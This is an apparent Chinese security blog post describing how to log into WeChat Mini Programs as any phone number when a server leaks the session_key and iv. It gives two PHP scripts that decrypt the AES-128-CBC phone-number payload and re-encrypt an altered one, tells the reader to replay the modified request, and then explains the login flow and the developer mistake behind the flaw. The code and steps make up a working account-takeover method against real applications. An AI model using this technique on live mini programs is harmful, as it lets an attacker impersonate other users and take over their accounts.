






微信小程序任意手机号快捷登陆
上次更新: 2024-07-22 11:11:37
微信小程序任意手机号快捷登陆
SessionKey&&iv 泄漏
在手机号授权登录时可能存在 SessionKey&&iv 泄漏

可使用脚本对其解密后手机号信息再进行加密
解密
<?php
echo "请输入SessionKey: ";
$sessionKey = trim(fgets(STDIN));
echo "请输入本次加密IV: ";
$iv = trim(fgets(STDIN));
echo "请输入待解密内容: ";
$encryptedData = trim(fgets(STDIN));
function decryptData( $encryptedData,$iv, $sessionKey ) {
$aesIV = base64_decode($iv);
$aesCipher = base64_decode($encryptedData);
$aesKey = base64_decode($sessionKey);
$result = openssl_decrypt($aesCipher, "AES-128-CBC", $aesKey, 1,$aesIV);
if ($result === false) {
// 解密失败，可以处理错误
return "解密失败: " . openssl_error_string();
}
// 尝试解析 JSON，并检查是否成功
$dataObj = json_decode($result);
if (json_last_error() !== JSON_ERROR_NONE) {
// 解析 JSON 失败
return "JSON 解析失败: " . json_last_error_msg();
}
return $result;
}
$result = decryptData($encryptedData, $iv,$sessionKey);
echo sprintf("最终的解密结果为: %s\n", $result);
修改值后再进行加密
<?php
echo "请输入SessionKey: ";
$sessionKey = fgets(STDIN);
echo "请输入本次解密IV: ";
$iv = fgets(STDIN);
echo "请输入待加密内容: ";
$decryptedData = fgets(STDIN);
function encryptData( $decryptedData, $iv, $sessionKey )
{
$aesIV = base64_decode($iv);
$aesCipher = $decryptedData;
$aesKey = base64_decode($sessionKey);
$result = openssl_encrypt($aesCipher, "AES-128-CBC", $aesKey, 0, $aesIV);
$dataObj = json_decode($result);
return $result;
}
$result = encryptData($decryptedData, $iv, $sessionKey);
echo sprintf("最终的加密结果为: %s\n", $result);
把加密后的结果进行替换发包

原理
一些微信小程序有 微信手机号快捷登录 的功能，无需接收验证码即可实现一键登录已经经过微信验证的手机号。

微信小程序登录流程官方指南
调用 wx.login()api 接口 获取 临时登录凭证 code ，并回传到开发者服务器。
调用 auth.code2Session api 接口，换取 用户唯一标识 OpenID 、 用户在微信开放平台账号下的唯一标识 UnionID（若当前小程序已绑定到微信开放平台账号） 和 会话密钥 session_key。
之后开发者服务器可以根据用户标识来生成自定义登录态，用于后续业务逻辑中前后端交互时识别用户身份。
如图

该漏洞造成原因:
调用 auth.code2Session api 接口后，开发未自定义登录态与 session_key，OpenID 关联，直接返回原本的 session_key，OpenID。

加解密
微信使用的是 AES 加密，CBC 模式采用 PKCS7 填充，数据块长度为 128 位，输出使用 base64 编码。AES 是用于替代 DES 加密的对称加密算法，对称加密算法最大的特性便是加、解密使用的同是一串密钥，只要获取到 key 便可加解自如（CBC 加密模式下还需要 iv 偏移量参数，一般固定不变或作为变量内容传输）
iv:CBC 加密模式下的偏移量参数
session_key:会话密钥
RecoveryAshes Blog